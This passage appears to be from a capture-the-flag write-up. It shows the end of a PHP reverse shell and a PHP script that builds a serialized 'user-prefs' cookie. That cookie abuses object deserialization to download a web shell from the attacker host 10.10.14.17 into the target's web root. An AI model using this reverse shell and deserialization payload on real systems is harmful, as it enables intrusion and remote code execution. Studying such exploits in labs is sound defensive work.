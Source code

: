 ```php
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

We serve this up with `python -m http.server 8000`  (easier and means our own local PHP interpreter won't run the code locally) -- and here is our PHP script to generate our new `user-prefs` cookie value:

```php
<?php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

$avatar_interface_obj = new AvatarInterface;
$avatar_interface_obj->tmp = "http://10.10.14.17:8000/my-cmd.php";
$avatar_interface_obj->imgPath = "/var/www/html/my-cmd.php";

$avatar_interface_str = serialize($avatar_interface_obj);
```